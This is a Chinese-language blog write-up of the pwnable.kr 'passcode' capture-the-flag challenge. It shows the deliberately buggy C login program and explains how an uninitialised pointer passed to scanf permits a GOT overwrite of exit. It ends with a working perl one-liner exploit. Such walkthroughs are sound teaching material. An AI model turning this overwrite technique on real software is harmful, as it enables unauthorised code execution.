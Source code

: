 ```yaml
---
title: passcode
author: rk700
layout: post
tags:
  - exploit
  - pwnable.kr
---
```

代码如下

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
{% endhighlight %}

问题出在`login()`中，`scanf`的第二个参数给的不是变量的地址。如果`passcode1`和`passcode2`的初始值指向不可写的地方，而且`scanf`成功，那么就会segfault

于是思路就是，在`login()`执行前，在`welcome()`中把栈上的值设好。所以这道题和OverTheWire上的Manpage里一道题思路有相似的地方

具体地，`name`在`welcome()`中的地址是`ebp-0x70`，`passcode1`和`passcode2`在`login()`中的地址是`ebp-0x10`和`ebp-0xc`。正好我们只能改写`passcode1`，改不了`passcode2`。于是单纯地想把两个都修改为检查值的方法行不通了

但是我们发现，`passcode1`那里由于`scanf`，可以做到写4 bytes到任意地址。所以我们可以修改程序流程，让他跳到`system`读flag那里。

而由于ASLR，想修改返回地址不靠谱，于是我们可以修改`exit@got`。这样检查失败后，调用`exit(0)`就成了`system("/bin/cat flag");`

由`readelf -r passcode`可知`exit@got`在`0x0804a018`，于是把`passcode1`设为它；然后通过`scanf`将其改为`0x080485e3=134514147`。注意我们要让`passcode2`在`scanf`时不能segfault，于是输入非数字让`scanf`失败

<pre>$ perl -e 'print "A"x96 . "\x18\xa0\x04\x08" . "134514147\n" . "f\n"' | ./passcode</pre>

